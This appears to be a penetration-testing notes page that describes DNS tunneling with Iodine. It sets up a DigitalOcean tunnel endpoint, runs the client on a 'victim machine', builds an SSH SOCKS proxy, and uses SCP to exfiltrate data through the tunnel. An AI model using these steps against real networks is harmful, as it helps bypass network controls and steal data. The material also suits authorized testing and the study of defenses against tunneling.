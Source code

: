 # DNS Tunneling
### With DigitalOcean Droplet and Iodine.
* Must have control over a public domain.
* Setup Internet host as DNS Server / tunnel endpoint, with [DigitalOcean Droplet](https://www.digitalocean.com/products/droplets)
* Create DNS tunnel with [Iodine](../../Tools/Tunneling/Iodine/README.md).
1) Create DNS host names (ns1 and ns2) that point to DigitalOcean Droplet's public IP.
2) Change the domain's name servers to "Custom" and point to the two hosts just created.
3) SSH into Droplet and [install Iodine](../../Tools/Tunneling/Iodine/README.md#Install-Iodine).
4) [Run Iodine daemon on Droplet](../../Tools/Tunneling/Iodine/README.md#Run-Iodine-daemon-to-listen-for-connections).
5) Check Internet connectiving with netcat.
```bash
nc www.google.com 80
```
6) Confirm the victim machine has a DNS server.
```bash
cat /etc/resolv.conf
```
7) Confirm DNS revolver will resolve a host on the Internet.
```bash
ping www.google.com
```
8) [Run Iodine on victim machine](../../Tools/Tunneling/Iodine/README.md#Run-Iodine-client-on-victim).
9) Create local, SSH, SOCKS proxy server, to encrypt traffic.
```bash
ssh user@10.0.0.1 -D10.0.0.2:1234 -N -C
# -D creates local port for proxy on port 1234, bound to local tunnel interface (10.0.0.2).
# -C enable compression
```
10) Configure Web browser to user SOCKS proxy.
* SOCKS Host: 10.0.0.2
* SOCKS Port: 1234
11) Use SCP to exfiltrate data over tunnel.

##### [Iodine](../../Tools/Tunneling/Iodine/README.md)

### DNS Tunneling References
##### [DNS Tunneling](https://beta.ivc.no/wiki/index.php/DNS_Tunneling)

# SSH Tunneling

# [VPN Tunneling](../VPN/README.md#Create-VPN-Tunnel)